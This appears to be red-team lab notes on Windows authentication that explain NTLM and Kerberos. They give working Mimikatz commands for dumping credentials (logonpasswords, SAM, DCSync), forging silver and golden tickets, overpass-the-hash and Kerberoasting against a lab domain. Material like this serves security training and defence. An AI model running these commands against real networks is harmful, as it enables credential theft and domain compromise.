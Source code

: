 ## Windows Authentication

### LM
Was being used by default before windows vista, windows server 2008 (Weak hashing algorithm).

### NT Hash (NTLM)
Currently used for storing passwords at windows systems (Used for pass-the-hash attack).

### LM & NTLM Dump
```
# Dump from memory (Mimikatz)
privilege::debug
sekurlsa::logonpasswords

# Dump from SAM database
reg save HKLM\sam sam
reg save HKLM\system system
lsadump::sam /system:system /sam:sam //Mimikatz

# Dump from Domain Controller
lsadump::dcsync /domain:marvel.local /all /csv //Mimikatz (needs domain admin)
```

### NTLMv1 (Net-NTLMv1)
Not stored locally, used on the fly while authentication.

### NTLMv2 (Net-NTLMv2)
Same as NTLMv1, just with some modification on the encryption algorithm.

### NTLM Authentication Mechanism
- The user enters his username and password.
- The client initiates a negotiation request with the server, that request includes any information about the client capabilities as well as the Dialect or the protocols that the client supports.
- The server picks up the highest dialect and replies through the Negotiation response message then the authentication starts.
- The client then negotiates an authentication session with the server to ask for access.
- The server responds to the request by sending an NTLM challenge.
- The client then encrypts that challenge with his own pre-entered password’s hash (NTLM Hash) and sends his username, challenge, and challenge-response back to the server (Net-NTLM Hash).
- The server tries to encrypt the challenge as well using its own copy of the user’s hash (NTLM Hash) which is stored locally on the server in case of local authentication, or pass the information to the domain controller in case of domain authentication, comparing it to the challenge-response, if equal then the login is successful.

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/LateralMovement/Screen1.png?raw=true)

Note: To use NTLM authentication instead of Kerberos authentication, access IP addresses instead of Hostnames dir \\10.0.2.100\c$.

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/LateralMovement/Screen2.png?raw=true)
![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/LateralMovement/Screen3.png?raw=true)
![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/LateralMovement/Screen4.png?raw=true)

LM / NTLM Hashes are used for Pass-The-Hash attacks, while Net-NTLMv1 / Net-NTLMv2 Hashes are used for NTLM Relay attacks.

Pass-The-Hash will do all the same previous authentication process because of all this process based on the user's hash, not the user's password.

NTLM Relay attack takes place at the Session Setup Request Authentication step.

## Kerberos Authentication

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/LateralMovement/Screen5.png?raw=true)

- The client hashes the user’s password, uses that hash to encrypt the current timestamp, and sends the encrypted timestamp to the KDC. The KDC already has a copy of the user’s hash so it uses the hash and tries to decrypt that message to retrieve the timestamp. If the decryption is successful, then the KDC knows that the client used the correct hash and hence proved his identity to that KDC.
- The Authentication service (AS) replies with two messages:
	A. A session key encrypted using the user’s hash, that key will be used for future messages.
	B. TGT (ticket-granting ticket), That TGT contains information regarding the user and his privileges on the domain, This message is encrypted using the hash of the KRBTGT account’s password. That hash is known only to the KDC, so only the KDC can decrypt the TGT.
- The client now has the TGT, he then requests a ticket to access the service he wants, so the client encrypts that request using the session key and sends it to the KDC which will decrypt and validate it. The TGT is also sent in that request.
- After validating the TGT the KDC responds with two messages:
	A. A message specialized for the targeted service, encrypted with the service’s hash which is stored at the KDC, this includes the information in the TGT as well as a session key.
	B. A message for the client containing a session key for further requests between the client and the service he asked to access, which is encrypted using the key retrieved from the AS-REP step.
- The client presents the message (TGS) from the TGS-REP step while connecting to the service along with an encrypted part, called authenticator message, this part includes the user’s name and timestamp which was encrypted and will be decrypted using the service session key. Then compare the username and timestamp from the TGS with the username and timestamp from the authenticator message.

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/LateralMovement/Screen6.png?raw=true)

### Silver Ticket (Forged TGS)
```
# Silver Ticket
mimikatz # kerberos::golden /user:administrator /domain:marvel.local /sid:S-1-5-21-410602843-3916082903-3170366279 /target:hydra-dc /service:cifs /rc4:86bafceb975cb8237cf2d390faa04074 
mimikatz # kerberos::ptt ticket.kirbi

# CMD
klist
dir \\hydra-dc\c$
```

- user: Username, this can be any user, even an invalid one will work.
- domain: The domain name.
- sid: Domain sid, can be obtained via many methods, whoami /user is one.
- target: Target machine.
- service: The service name, CIFS as am accessing filesharing service.
- rc4: NTLM hash of the target service.

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/LateralMovement/Screen7.png?raw=true)
![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/LateralMovement/Screen8.png?raw=true)

Note: we can use the target machine hash as the service hash for filesharing service (CIFS).

### Golden Ticket (Forged TGT)
```
# Dump krbtgt hash (run as domain admin)
mimikatz # privilege::debug
mimikatz # lsadump::dcsync /domain:marvel.local /all /csv

# Golden Ticket
mimikatz # kerberos::golden /user:invaliduser /domain:marvel.local /sid:S-1-5-21-410602843-3916082903-3170366279 /rc4:249030b29d08621192b77cb5c8580fad 
mimikatz # kerberos::ptt ticket.kirbi
exit

# CMD
klist
dir \\hydra-dc\c$
```

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/LateralMovement/Screen9.png?raw=true)
![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/LateralMovement/Screen10.png?raw=true)

In the golden ticket, you’re not restricted to a single service, you got the KRBTGT, you can create your own TGT, so you can create a TGS for any service you want.

### OverPass The Hash
```
mimikatz # privilege::debug
mimikatz # sekurlsa::pth /user:administrator /domain:marvel.local /ntlm:ead0cc57ddaae50d876b7dd6386fa9c7

# New CMD (use hostname instead of IP to authenticate using Kerberos)
dir //hydra-dc/c$
psexec //hydra-dc cmd
```

### Kerbroasting
```
git clone https://github.com/nidem/kerberoast

# Get all SPNs
.\GetUserSPNs.ps1

# Request ticket for specific service
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "Hydra-DC/SQLService.MARVEL.local:60111" 

# Extract the tickets from memory
mimikatz # kerberos::list /export

# Crack the ticket
python tgsrepcrack.py wordlist.txt Administrator@Hydra-DC~SQLService.MARVEL.LOCAL.kirbi
```
